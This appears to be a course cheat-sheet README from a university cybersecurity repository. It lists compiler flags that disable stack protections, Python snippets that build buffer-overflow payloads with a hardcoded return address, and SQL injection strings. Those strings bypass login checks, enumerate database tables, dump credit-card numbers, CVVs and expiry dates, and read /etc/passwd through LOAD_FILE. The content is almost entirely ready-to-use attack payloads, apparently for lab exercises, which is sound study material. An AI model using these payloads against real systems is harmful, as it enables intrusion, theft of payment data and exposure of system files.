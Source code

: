 # UNIMORE-cyber-security

## Buffer Overflow
```commandline
gcc -w -m32 -fno-stack-protector -fno-pic -no-pie -g -o
```

```commandline
python3 -c 'print("A"*number)' | ./esercizio1
```

### GDB
```commandline
$ gdb esercizio1
(gdb) disassamble main
```

### BE AWARE!!
```commandline
mov (or movb, movl, movw, movq)
lea
cmpl
```

### python2
```python
a = ""
for _ in range(10):
    a += "A"
print(a + '\x6b\x84\x04\x08')
```

### python3
```python
import sys

length = 10
payload = b"A" * length + b'\x6b\x84\x04\x08'
sys.stdout.buffer.write(payload)
```

## SQL Injection
> a space after the -- (comment macro) is required
```commandline
'-- 
```
```commandline
' or ''='' -- 
```
```commandline
' union select null, table_name, column_name,null,null,null,null from INFORMATION_SCHEMA.COLUMNS where table_name = 'credit_cards' -- 
```
```commandline
' union select null, ccnumber, ccv, expiration,null,null,null from credit_cards -- 
```
```commandline
' union select null, ccv, expiration,null,null,null,null from credit_cards where ccnumber=1234567812345678 -- 
```
```commandline
' union select null, LOAD_FILE('/etc/passwd'), null,null,null,null,null from credit_cards where ccnumber=1234567812345678 --
```
